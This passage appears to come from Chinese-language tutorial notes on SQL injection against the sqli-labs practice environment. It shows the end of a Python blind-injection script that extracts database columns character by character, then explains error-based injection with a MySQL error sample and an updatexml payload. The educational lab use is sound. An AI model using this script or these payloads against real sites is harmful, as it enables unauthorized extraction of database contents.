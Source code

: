 ```python
				targetUrl = url + payload
				res = conn.get(targetUrl.format(dbcolumn, dbtable, a, b, c))
				if flag in res.content.decode("utf-8"):
					data += chr(c)
					print(data)
					break
		#放到以字段名为键，值为列表的字典中存放
		DBData.setdefault(dbcolumn,[]).append(data)
		print(DBData)
		#把data清空来，继续获取下一个数据
		data = ""


if __name__ == '__main__':
	parser = optparse.OptionParser('usage: python %prog -u url \n\n'
									'Example: python %prog -u http://192.168.61.1/sql/Less-8/?id=1\n')
	# 目标URL参数-u
	parser.add_option('-u', '--url', dest='targetURL',default='http://127.0.0.1/sql/Less-8/?id=1', type='string',help='target URL')
	(options, args) = parser.parse_args()
	StartSqli(options.targetURL)
```

### 方法二

报错注入，数据库显错是指，数据库在执行时，遇到语法不对，会显示报错信息，如：

```
select' 11064 - You have an error in your SQL syntax; check the manual that corresponds to your MySQL
server version for the right syntax to use near ''' at line1
```

程序开发期间需要告诉使用者某些报错信息 方便管理员进行调试，定位文件错误。特别php 在执行SQL 语句时一般都会采用异常处理函数，捕获错误信息，在 php 中 使用 **mysql_error()** 函数。如果 SQL 注入存在时，会有报错信息返回，可以采用报错注入

```
select updatexml(1,concat(0x5e,database(),0x5e),1) 
```

<img src="图片\Snipaste_2023-01-22_10-12-46.png" alt="Snipaste_2023-01-22_10-12-46" style="zoom: 80%;" />
